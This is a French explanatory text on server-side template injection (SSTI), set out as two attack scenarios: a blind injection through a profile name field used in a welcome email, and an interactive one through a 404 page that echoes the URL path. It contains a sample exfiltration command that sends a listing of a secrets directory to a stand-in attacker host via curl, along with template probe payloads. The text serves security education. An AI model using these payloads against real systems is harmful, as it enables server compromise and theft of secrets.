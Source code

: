 Scénarios d'Exploitation d'une Vulnérabilité SSTI


Scénario 1 : L'E-mail Marketing Personnalisé (Attaque en Aveugle)


Contexte

Une plateforme d'e-commerce souhaite améliorer l'engagement de ses clients. Les développeurs mettent en place un système qui envoie automatiquement un e-mail de bienvenue personnalisé lors de l'inscription. L'e-mail doit commencer par "Bonjour, [Prénom] !". Le prénom est celui que l'utilisateur a renseigné dans son profil.

Point d'Injection

Le champ "Prénom" dans le formulaire de profil de l'utilisateur.

Déroulement de l'Attaque

1. Préparation : Un attaquant crée un compte sur la plateforme. Au lieu d'entrer un prénom normal comme « Blaise » , il saisit un payload SSTI dans le champ. Ce payload est conçu pour être exécuté sans renvoyer de résultat visible ; par exemple, une commande qui envoie des informations sensibles du serveur vers un site contrôlé par l'attaquant (curl http://attaquant.com --data "$(ls /app/secrets/)").

1. Déclenchement : L'attaquant sauvegarde son profil. Le site, pour confirmer la modification, envoie un e-mail de "mise à jour de profil" ou l'attaquant effectue une action déclenchant l'e-mail de bienvenue.
2. Exécution : En arrière-plan, un service (le "worker" d'e-mailing) récupère le prénom depuis la base de données. Il l'insère dans le template de l'e-mail : "Bonjour, {{ ''.__class__... }}". Le moteur de template exécute le payload.
3. Impact : La commande curl est exécutée sur le serveur d'e-mailing. L'attaquant reçoit la liste des fichiers de secrets (clés API, mots de passe de base de données, etc.) sur son propre serveur. Il n'a jamais eu de retour direct sur le site web, c'est pourquoi on parle d'attaque "en aveugle" (blind). La compromission est silencieuse 


Scénario 2 : La Page d'Erreur 404 "Intelligente" (Attaque Interactive)


Contexte

Une application web moderne veut améliorer l'expérience utilisateur, y compris pour les pages d'erreur. Lorsqu'un utilisateur accède à une URL qui n'existe pas, une page 404 personnalisée s'affiche avec le message : "Désolé, la page [chemin/demandé] est introuvable."

Point d'Injection

Le chemin de l'URL, qui est directement contrôlé par l'utilisateur dans la barre d'adresse de son navigateur.

Déroulement de l'Attaque

1. Détection : L'attaquant suspecte une faille et teste une URL simple : http://exemple.com/{{ 6*7 }}.
2. Déclenchement : Le serveur web ne trouve aucune ressource correspondant à ce chemin et déclenche son gestionnaire d'erreur 404. Ce dernier récupère le chemin demandé (/{{ 6*7 }}) pour l'afficher dans la page d'erreur.
3. Exécution : Le moteur de template, en générant la page 404, traite la chaîne "Désolé, la page /{{ 6*7 }} est introuvable.". Il voit l'instruction {{ 6*7 }}, l'exécute et la remplace par 42.
4. Impact : L'attaquant voit s'afficher à l'écran : "Désolé, la page /42 est introuvable.". Il a un retour interactif et immédiat qui confirme la vulnérabilité. Fort de cette confirmation, il peut construire son payload final étape par étape pour lire des fichiers de configuration (/app/settings.py) ou obtenir un accès direct au serveur (reverse shell), le tout via l'URL.


Conclusion

Ces deux scénarios montrent que la surface d'attaque pour une SSTI est très large. Elle ne se limite pas aux champs de saisie évidents, mais inclut les paramètres d'URL, les champs de profil, et même des fonctionnalités en arrière-plan comme l'envoi d'e-mails. La seule défense efficace est de considérer toute donnée modifiable par l'utilisateur comme potentiellement dangereuse et de la traiter en conséquence.